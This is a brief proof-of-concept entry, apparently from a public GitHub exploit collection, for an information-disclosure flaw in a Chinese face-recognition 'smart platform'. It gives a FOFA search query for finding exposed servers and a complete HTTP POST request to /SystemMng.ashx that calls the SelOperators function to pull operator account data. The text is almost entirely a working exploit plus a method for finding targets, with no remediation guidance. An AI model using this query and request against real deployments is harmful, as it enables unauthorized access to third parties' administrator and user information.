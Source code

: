 ## 脸爱云一脸通智慧平台SelOperators信息泄露漏洞

## fofa
```
body="View/UserReserved/UserReservedTest.aspx"
```

## poc
```
POST /SystemMng.ashx HTTP/1.1
Host: {{Hostname}}
Content-Length: 36
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin&funcName=SelOperators
```

![3eaa4e853a17b1795bf485fb1cc1a852](https://github.com/wy876/POC/assets/139549762/846ddccb-4df2-4a8a-a3b0-e51ecb15a65d)
